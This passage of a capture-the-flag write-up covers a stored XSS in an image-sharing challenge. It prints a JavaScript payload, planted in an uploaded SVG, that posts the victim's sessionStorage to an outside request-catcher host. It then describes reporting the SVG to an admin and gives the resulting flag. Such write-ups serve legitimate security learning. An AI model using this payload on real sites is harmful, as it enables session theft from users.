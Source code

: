 <br></br>
<h4><i>Stealing session and token</i></h4>

<p>From this part it was clear that this is stored XSS. Next I had to steal the session cookie and the token. Description specified that the token is not in the cookie though. Since I couldn't use my own server for exploit they offered us a "Request Catcher" that would do the job for us. So first I wrote the script to steal the session: </p><br></br>

```javascript
(async function(){
   let data = await fetch("https://62e48ff7-bed8-46ee-91d5-b51fff6486cf.idocker.vuln.land/debug",{
        method:"POST",
        body: JSON.stringify(window.sessionStorage)
   })
})()
```


<p>Now it was time to report my uploaded evil SVG to an admin. Intercepting my request again with Burp and changing path to download path of my image:  </p>



<p>Report is done now just need to check captured request, there was my session which is the first flag: </p>

<img src="https://github.com/0xhebi/BND-Recruitment-2021-CTF-Web-Security/blob/main/CatsUP!%20Image%20sharing%20service/screenshots/Bnd_first_flag.png?raw=true"/>

<b>#1 FLAG: HL{catss_v3ct0r_d3t3cted!}</b>
